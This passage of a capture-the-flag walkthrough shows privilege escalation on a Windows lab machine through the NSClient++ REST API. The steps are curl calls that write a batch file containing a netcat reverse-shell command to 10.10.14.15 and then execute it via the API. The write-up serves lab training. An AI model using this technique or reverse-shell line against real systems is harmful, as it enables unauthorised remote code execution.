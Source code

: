 This method is by exploiting the API calls. Let's go back to the step where we created a SSH port forward and continue from there.

If we check the [API docs](https://nsclient.org/docs/api/rest/) of the NSClient++'s website, we get a hint of what the API URL should look like. First, let's check if we can call the API.

```bash
0hmsec@kali:-$ curl -k -u admin https://localhost:8443/api/v1 | jq .
Enter host password for user 'admin':
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   259  100   259    0     0   1692      0 --:--:-- --:--:-- --:--:--  1692
{
  "info_url": "https://localhost:8443/api/v1/info",
  "logs_url": "https://localhost:8443/api/v1/logs",
  "modules_url": "https://localhost:8443/api/v1/modules",
  "queries_url": "https://localhost:8443/api/v1/queries",
  "scripts_url": "https://localhost:8443/api/v1/scripts"
}
```

Now, we need to have the binary `nc64.exe` in `C:\temp`. So, go ahead and download it first. Now, we are going to write a "bat" file directly inside the `C:\Program Files\NSClient++\Scripts` through the below API call. You can call the bat file anything you want, I am naming it as `0hmsec.bat`.

```bash
0hmsec@kali:-$ curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/0hmsec.bat --data-binary "C:\temp\nc64.exe 10.10.14.15 81 -e cmd.exe"
Enter host password for user 'admin':
Added 0hmsec as scripts\0hmsec.bat
```

In the windows machine you can check if the file has been correctly written to or not.

```bash
nadine@SERVMON c:\Program Files\NSClient++\scripts>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 20C1-47A1

 Directory of c:\Program Files\NSClient++\scripts

02/07/2025  04:52 AM    <DIR>          .
02/07/2025  04:52 AM    <DIR>          ..
02/07/2025  04:52 AM                42 0hmsec.bat
11/05/2017  10:11 PM                80 check_60s.bat
---[snip]---
```

Finally, we need to execute the script using the below API call. Don't forget to change the name of the script that you have created.

```bash
curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/0hmsec/commands/execute?time=10s
Enter host password for user 'admin':

```
